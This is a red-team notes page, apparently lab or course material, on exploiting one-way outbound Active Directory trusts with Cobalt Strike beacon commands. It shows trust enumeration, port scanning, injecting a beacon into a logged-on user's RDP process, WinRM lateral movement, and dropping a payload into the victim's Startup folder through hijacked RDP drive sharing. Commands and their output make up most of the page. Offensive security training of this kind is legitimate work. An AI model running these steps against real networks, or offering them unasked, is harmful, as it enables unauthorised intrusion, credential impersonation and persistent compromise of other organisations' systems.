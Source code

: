 # One-Way (Outbound)
This can be a difficult trust to exploit.
Idea:
* Domain A trusts Domain B
* Domain B can access Domain A
* Domain A can not access Domain B.

Techniques:
* SQL Server link created in the opposite direction of the domain trust (see [[MS SQL Servers]]).
* RDP drive sharing (or RDPInception).  
When a user enables drive sharing for their RDP session, it mounts a folder on the target machine that maps back to their local machine. If the target machine is compromised, we may migrate into the user's RDP session and use this mount-point to write files directly onto the machine. This is useful for dropping payloads into their startup folder which would be executed the next time they logon.

We are here: evil.corp
Target: get to evil.external
Our domain trusts their domain (outbound)

evil.corp has an outbound trust with evil.external.
```beacon
beacon> powershell Get-DomainTrust -Domain evil.corp

SourceName      : evil.corp
TargetName      : evil.external
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2022 10:15:24 PM
WhenChanged     : 2/19/2022 10:15:24 PM
```

Since outbound is defined, enumeration of the foreign domain will fail:
>Exception calling "FindAll" with "0" argument(s): "A referral was returned from the server.

1. **The strategy is to find principals in our `evil.corp` domain that are from our target domain `evil.external`.**
[[PowerView#Get Groups containing users outside of this domain]]

This shows us that there's a domain group in `evil.corp` called `Jump Users`, which contains principals that are not from `evil.corp`. These `ForeignSecurityPrincipals` are like aliases, and can't be resolved like `ConvertFrom-SID` to find out what that principal actually is.

2. Move laterally to instances where members of the `Jump Users` group have privileged access (local admins, RDP/WinRM/DCOM access etc).
- `First Degree RDP Privileges` ([[BloodHound]])
- [[PowerView#Machines that have identity assigned to a target group]]
4. Camp there until you see a member authenticate. Then, impersonate them to hop the trust.
```beacon
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> run hostname
sql1

beacon> net logons
Logged on users at \\localhost:

DEV\michael
EDU\SQL-1$

beacon> shell netstat -anop tcp | findstr 3389
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING       1012
  TCP    10.10.15.90:3389       10.10.18.221:50145     ESTABLISHED     1012

beacon> ps
 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 644   776   ShellExperienceHost.exe      x64   3           DEV\michael
 4960  1012  rdpclip.exe                  x64   3           DEV\michael
 4980  696   svchost.exe                  x64   3           DEV\michael
 
beacon> portscan 10.10.18.0/24 139,445,3389,5985 none 1024
10.10.18.221:3389
10.10.18.221:5985

10.10.18.167:139
10.10.18.167:445
10.10.18.167:3389
10.10.18.167:5985

Scanner module is complete
```
5. Inject a beacon into his process
```beacon
beacon> inject 4960 x64 tcp-local
[+] established link to child beacon: 10.10.15.90

beacon> getuid
[*] You are DEV\michael

beacon> powershell Get-Domain
Forest                  : evil.external
DomainControllers       : {dc-01.evil.external}
```
6. Check permissions of the use:
   We didn't see port 445 open, so we can't do anything over file shares, but 5985. Since the firewall is active we use a privot listener or open a port via [[Set windows firewall rule]].
```beacon
beacon> remote-exec winrm sql01.evil.external whoami; hostname

DEV\michael
sql01

beacon> jump winrm64 sql01.evil.external pivot-sql1
[+] established link to child beacon: 10.10.18.221
```
7. If **no** admin try to hijack the RDP drive sharing
   Inside the RDP session on SQL-1, there's a UNC path called `tsclient` which has a mount point for every drive that is being shared over RDP. `\\tsclient\c` is the C: drive on the origin machine of the RDP session, in this case `sql01.evil.external`. This gives us the equivalent of standard user read/write access to that drive.
8. Drop binary into startup
```beacon
beacon> cd \\tsclient\c\Users\michael\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
beacon> upload C:\Payloads\pivot.exe
beacon> ls

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 174b     fil     05/15/2022 19:00:25   desktop.ini
 281kb    fil     05/15/2022 20:31:00   pivot.exe
```


## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```
